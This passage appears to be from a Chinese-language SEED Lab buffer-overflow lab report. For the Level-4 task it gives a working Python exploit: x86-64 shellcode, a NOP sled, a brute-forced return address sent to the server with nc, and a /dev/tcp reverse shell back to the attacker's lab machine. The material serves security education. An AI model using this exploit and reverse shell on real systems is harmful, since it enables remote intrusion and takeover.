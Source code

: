 ### Task 5：Level-4 Attack  

向server4发送nc连接请求，但是buffer size很小，由返回结果可知buffer size为0x60，为96长度，小于shellcode长度，因此考虑使用main函数fread参数的shellcode，由于地址离rbp较远且无法得知，因此尝试遍历爆破出结果，此处应尽量保证shellcode前有尽可能多的nop指令，所以start可以设置为末尾。

![ehco-hello-server3](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/ehco-hello-server3.png)

构造python脚本如下，使用循环向server4发送请求：

```python
#!/usr/bin/python3
import sys
import os

shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/7070 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x7fffffffe650    # Change this number 
offset = 0x60 + 8              # Change this number 
for i in range(0, 100):
  ret += 40
  # Use 4 for 32-bit address and 8 for 64-bit address
  content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
  ##################################################################
  # Write the content to a file
  with open('badfile', 'wb') as f:
    f.write(content)
  print(f"ret: {ret}")
  print(os.system("cat badfile | nc 10.9.0.8 9090"))
 
```